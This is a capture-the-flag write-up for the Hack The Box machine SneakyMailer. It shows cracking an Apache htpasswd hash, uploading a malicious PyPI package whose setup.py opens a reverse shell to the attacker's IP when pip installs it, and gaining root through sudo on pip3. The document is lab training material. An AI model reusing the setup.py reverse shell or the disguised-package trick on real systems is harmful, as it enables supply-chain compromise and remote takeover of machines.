


# 20 - PrivEsc


# pypi.sneakycorp.htb
```bash
www-data@sneakymailer:~$ ls -l 
total 16
drwxr-xr-x 3 root root 4096 Jun 23  2020 dev.sneakycorp.htb
drwxr-xr-x 2 root root 4096 May 14  2020 html
drwxr-xr-x 4 root root 4096 May 15  2020 pypi.sneakycorp.htb
drwxr-xr-x 8 root root 4096 Jun 23  2020 sneakycorp.htb
```

pypi.sneakycorp.htb stands out, we need to visit to check if it is any different.

# pypi password hash
```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 43 May 15  2020 /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Authentication is maybe enabled. 


# Cracked
```bash
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
Time.Started.....: Mon Sep  6 19:36:54 2021 (6 mins, 0 secs)
Time.Estimated...: Mon Sep  6 19:42:54 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10115 H/s (12.50ms) @ Accel:128 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3614208/14344385 (25.20%)
Rejected.........: 0/3614208 (0.00%)
Restore.Point....: 3613952/14344385 (25.19%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: souhern4u -> soucia

Started: Mon Sep  6 19:36:52 2021
Stopped: Mon Sep  6 19:42:56 2021
```

Credentials:

* pypi: soufianeelhaoui


# PyPi



pypi is the place where you install python modules. This looks like a custom server but it does not have any packages at the moment. Hopefully, we can upload something ourselves. When "pip install <package>" is run *pip* executes setup.py from the package. A reverse shell smuggled in setup.py could possibly give us a shell.

# install-modules.py
```bash
www-data@sneakymailer:~$ ps -ef |  grep low
low       1111     1  0 Sep06 ?        00:00:44 /home/low/venv/bin/python /opt/scripts/low/install-modules.py
```

There is a python process executing install-modules.py as low. install-modules.py does not like to be read by others but the filename speaks for itself. User low wants to install modules, we can take a shot at its own pypi server.


# PyPi Module Upload

# Package Structure
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ find -type f -ls
   531713      4 -rw-r--r--   1 user     user            1 Sep  7 12:40 ./malicious_pypi/__init__.py
   532901      4 -rw-r--r--   1 user     user          570 Sep  7 13:32 ./setup.py
```


setup.py is executed when the package pip installed. Before smuggling our reverse shell, we need to create a file to point setup.py to the target box otherwise by default it would try to upload to pypi.org 


# ~/.pypirc

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ cat ~/.pypirc 
[distutils]
index-servers = sneaky

[sneaky]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```


# setup.py
```py
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ cat setup.py 
from setuptools import setup
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.9",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])


setup(
   name='malicious_pypi',
   version='1.0',
   description='A useful module',
   author='Man Foo',
   url = 'http://pypi.sneakycorp.htb:8080/packages/',
   author_email='foomail@foo.com',
   packages=['malicious_pypi'],  #same as name
   install_requires=['wheel', 'bar', 'greek'], #external packages as dependencies
)
```

setup.py is ready. Now we are free to upload our malicious package. Setup.py executes the reverse shell on our box first, if we want a shell from the other party, we should close and reopen netcat.

# Upload  


```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer/pypi]
└──╼ $ python3 setup.py sdist upload -r sneaky
```

We should get a shell just in a few seconds.

# User low



# Sudo 
```bash
low@sneakymailer:/home$ sudo -l

sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

This part is easy. pip3 is one of the gtfobins.

# Root
```bash
low@sneakymailer:/home$ TF=$(mktemp -d)
low@sneakymailer:/home$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:/home$ sudo /usr/bin/pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.zElt8QwTRW
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
